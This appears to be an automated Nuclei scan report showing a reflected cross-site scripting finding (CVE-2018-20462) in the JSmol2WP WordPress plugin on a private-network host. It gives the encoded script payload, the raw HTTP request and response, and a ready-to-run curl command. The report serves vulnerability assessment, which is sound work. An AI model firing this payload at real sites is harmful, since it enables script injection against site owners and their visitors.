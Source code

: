 ### JSmol2WP <= 1.07 - Reflected Cross-Site Scripting (XSS) (CVE-2018-20462) found on http://192.168.198.179:8080/
---
**Details**: **CVE-2018-20462**  matched at http://192.168.198.179:8080/

**Protocol**: HTTP

**Full URL**: http://192.168.198.179:8080/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=saveFile&data=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E&mimetype=text/html;%20charset=utf-8

**Timestamp**: Wed Jun 8 20:22:20 +0100 BST 2022

**Template Information**

| Key | Value |
|---|---|
| Name | JSmol2WP <= 1.07 - Reflected Cross-Site Scripting (XSS) |
| Authors | daffainfo |
| Tags | cve, cve2018, wordpress, xss, wp-plugin |
| Severity | medium |
| Description | An issue was discovered in the JSmol2WP plugin 1.07 for WordPress. A cross-site scripting (XSS) vulnerability allows remote attackers to inject arbitrary web script or HTML via the jsmol.php data parameter. |
| CVSS-Metrics | [CVSS:3.0/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N](https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N) |
| CWE-ID | [CWE-79](https://cwe.mitre.org/data/definitions/79.html) |
| CVE-ID | [CVE-2018-20462](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2018-20462) |
| CVSS-Score | 6.10 |

**Request**
```http
GET /wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=saveFile&data=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E&mimetype=text/html;%20charset=utf-8 HTTP/1.1
Host: 192.168.198.179:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip


```

**Response**
```http
HTTP/1.0 200 OK
Connection: close
Content-Length: 297
Content-Type: text/html

<HTML><HEAD><TITLE>File Not Found</TITLE></HEAD><BODY><H1>Cannot find this file.</H1>The requested file: <B>/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=saveFile&data=</script><script>alert(document.domain)</script>&mimetype=text/html; charset=utf-8</B> was not found.</BODY></HTML>
```

References: 
- https://nvd.nist.gov/vuln/detail/cve-2018-20462
- https://www.cbiu.cc/2018/12/wordpress%e6%8f%92%e4%bb%b6jsmol2wp%e6%bc%8f%e6%b4%9e/#%e5%8f%8d%e5%b0%84%e6%80%a7xss
- https://wpvulndb.com/vulnerabilities/9196

**CURL Command**
```
curl -X 'GET' -d '' -H 'Accept: */*' -H 'Accept-Language: en' -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36' 'http://192.168.198.179:8080/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=saveFile&data=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E&mimetype=text/html;%20charset=utf-8'
```
---
Generated by [Nuclei 2.7.1](https://github.com/projectdiscovery/nuclei)